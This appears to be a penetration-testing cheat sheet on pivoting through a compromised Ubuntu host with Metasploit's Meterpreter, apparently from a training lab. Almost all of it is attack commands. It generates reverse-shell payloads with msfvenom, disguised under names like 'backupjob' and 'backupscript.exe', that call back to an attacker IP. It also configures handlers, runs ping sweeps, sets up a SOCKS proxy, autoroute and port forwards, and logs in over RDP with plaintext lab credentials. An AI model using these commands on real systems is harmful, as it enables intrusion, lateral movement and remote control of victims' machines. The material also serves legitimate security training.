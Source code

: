 
**Creating Payload for Ubuntu Pivot Host
```shell-session
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```

**Configuring & Starting the multi/handler
```shell-session
use exploit/multi/handler
```
```shell-session
set lhost 0.0.0.0
```
```shell-session
set lport 8080
```
```shell-session
set payload linux/x64/meterpreter/reverse_tcp
```
```shell-session
run
```

Copy the payload over to the pivot host
- scp /path/to/local/file username@remote_host:/path/to/remote/destination

**Executing the Payload on the Pivot Host
```shell-session
ls
```
```shell-session
chmod +x backupjob 
```
```shell-session
./backupjob
```

**Meterpreter Session Establishment
```shell-session
pwd
```

**Ping Sweep
```shell-session
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

**Ping Sweep For Loop on Linux Pivot Hosts
```shell-session
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

**Ping Sweep For Loop Using CMD
```cmd-session
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

**Ping Sweep Using PowerShell
```powershell-session
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.16.5.$($_) -quiet)"}
```

- Ping sweep at least twice to ensure the arp cache gets built


- If ICMP ping is blocked by firewall, we will socks proxy

**Configuring MSF's SOCKS Proxy
```shell-session
use auxiliary/server/socks_proxy
```
```shell-session
set SRVPORT 9050
```
```shell-session
set SRVHOST 0.0.0.0
```
```shell-session
set version 4a
```
```shell-session
run
```
```shell-session
jobs
```

**Adding a Line to proxychains.conf if needed
```shell-session
socks4 	127.0.0.1 9050
```

**Creating Routes with AutoRoute
```shell-session
use post/multi/manage/autoroute
```
```shell-session
set SESSION 1
```
```shell-session
set SUBNET 172.16.5.0
```
```shell-session
run
```

**Or

```shell-session
run autoroute -s 172.16.5.0/23
```
(meterpreter session)

```shell-session
run autoroute -p
```

**Testing Proxy & Routing Functionality
```shell-session
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

**Port Forwarding
```shell-session
help portfwd
```

**Creating Local TCP Relay
```shell-session
portfwd add -l 3300 -p 3389 -r 172.16.5.19
```
- -l starts a listener on our local attack host's local port 3300
- -r forward all the packets to the remote Windows server 172.16.5.19 on
- -p port 3389 via our Meterpreter session

**Connecting to Windows Target through localhost
```shell-session
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```
```shell-session
netstat -antp
```


### Meterpreter Reverse Port Forwarding

**Reverse Port Forwarding Rules
```shell-session
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```
- forwards all connections on port 1234 running on the Ubuntu server to our attack host on local port 8081.
- We configure our listener to listen on port 8081 for a Windows shell.

**Configuring & Starting multi/handler
```shell-session
bg
```
```shell-session
set payload windows/x64/meterpreter/reverse_tcp
```
```shell-session
set LPORT 8081
```
```shell-session
set LHOST 0.0.0.0 
```
```shell-session
run
```

**Generating the Windows Payload
```shell-session
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```

